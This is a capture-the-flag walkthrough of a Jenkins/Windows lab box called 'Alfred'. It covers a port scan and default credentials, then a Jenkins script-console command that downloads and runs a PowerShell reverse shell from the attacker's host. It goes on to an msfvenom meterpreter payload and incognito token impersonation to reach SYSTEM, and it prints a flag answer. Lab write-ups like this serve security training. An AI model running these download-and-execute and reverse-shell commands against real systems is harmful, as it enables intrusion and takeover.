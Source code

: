 # Alfred

> Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

<br>

### Process:

1. Initial Access:
	- basic port scan: `nmap -T4 10.10.61.207`
	- number of ports open = **3**
	- find username and password on user panel: 
		- try default credentials
		- username/password = **admin**:**admin**
	- find feature that lets you execute commands on underlying system:
		- found script console at 10.10.61.207:8080/computer/(master)/script 
	- get reverse shell:
		- download PowerShell reverse shell from [nishang github](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
		- host reverse shell on attacker machine: `python3 -m http.server 1234`
		- setup netcat listener on attacker machine: `nc -lvnp 4444`
		- execute powershell download and run command: `println "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.70.79:1234/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.70.79 -Port 4444".execute().text`
	-  read user.txt flag:
		-  `cd /Users/bruce/Desktop` -> `cat user.txt`
		-  flag = **79007a09481963edf2e1321abd9ae2a0**
2. Switching Shells (switch to a metepreter shell):
	- create windows meterpreter reverse shell payload:
		- `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.70.79 LPORT=1234 -f exe -o shell2.exe`
	- setup metasploit handler in metasploit:
		- `use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.10.70.79 set LPORT 1234 run`
	- host meterpreter reverse shell: `python -m http.server 8080`
	- download payload to machine as before:
		- `println "powershell \"(New-Object System.Net.WebClient).Downloadfile('http://10.10.70.79:8080/shell2.exe','shell2.exe')\"".execute().text`
	- then start the new shell (through the old one):
		- `Start-Process "shell2.exe"`
	- final size of exe payload generated = **73802**
3. Privilege Escalation:
	- view all the privileges using `getprivs`:
		- have SeDebugPrivilege and SeImpersonatePrivilege that can be abused 
	- load the incognito module: `load incognito`
	- list tokens by unqiue group name: `list_tokens -g`
	- impersonate the "BUILTIN\Adminstrators" token: `impersonate_token "BUILTIN\Adminstrators"`
	- new user (output of `getuid` command) = **NT AUTHORITY\\SYSTEM**
	- migrate to a new process with matching permissions to new SYSTEM user to gain full permissions:
		- `ps` -> `migrate 1724` (any process running as SYSTEM)
	- read the root.txt file at C:\\Windows\\System32\\config:
		- `cd /windows/system32/config` -> `cat root.txt`

